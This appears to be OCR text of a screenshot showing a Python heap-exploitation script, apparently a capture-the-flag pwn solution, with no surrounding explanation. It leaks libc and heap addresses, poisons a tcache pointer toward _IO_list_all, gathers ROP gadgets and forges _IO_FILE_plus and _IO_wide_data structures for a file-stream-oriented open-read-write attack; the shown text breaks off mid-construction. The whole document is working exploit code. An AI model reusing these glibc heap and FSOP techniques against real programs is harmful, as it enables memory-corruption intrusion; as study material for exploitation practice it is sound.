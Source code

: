 ```python
for i in range(0xd):
    create(i)

for i in range(0x9):
    remove(i)

insert(9,0x500,b'aa')
insert(9,0x3a0,b'a')
insert(10,0x40,b'a')
get(10,0)
io.recvuntil(b'Varchar: ')
io.recv(8)
libc_base=u64(io.recv(8))-0x21b0e0
heap_base=u64(io.recv(8))
print("libc_base="+hex(libc_base))
print("heap_base="+hex(heap_base))
# p()

# create(0)
insert(11,0x3f7,b'1')
insert(11,0x2,b'a')
create(0)
remove(12)
# p()
io_list_all=libc.symbols[b'_IO_list_all']+libc_base
payload=b'\x61'+b'\x00'*0x400+p64(0x31)+p64((io_list_all)^((heap_base+0x001550)>>12))
edit(11,1,0x418,payload)
create(1)
insert(11,0x2,b'a')
edit(11,0,0x20,p64(heap_base+0x001590))

heap_addr=heap_base+0x001590

lock = heap_base
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
write_addr = libc_base + libc.sym['write']
pop_rax=libc_base+0x0000000000045eb0
pop_rdi=libc_base+0x000000000002a3e5
pop_rsi=libc_base+0x000000000002be51
pop_rdx12=libc_base+0x000000000011f2e7
leave_ret =libc_base + libc.search(asm('leave;ret;')).__next__()

chunk5_addr=heap_addr

orw_addr=chunk5_addr + 0xe0 + 0xe8 + 0x70
wfile=libc.symbols["_IO_wfile_jumps"]+libc_base
magic_gadget=libc_base+0x16A06A

#_IO_FILE_plus
fake_file=p64(0)*5
fake_file+=p64(1)
fake_file+=p64(0)*3
fake_file+=p64(orw_addr)
fake_file+=p64(0)*7
fake_file+=p64(lock)    #lock
fake_file+=p64(0)*2
fake_file+=p64(chunk5_addr + 0xe0)
fake_file+=p64(0)*6
fake_file+=p64(wfile)
#_IO_wide_data
fake_file+=p64(0)*0x1c
fake_file+=p64(chunk5_addr + 0xe0 + 0xe8)
```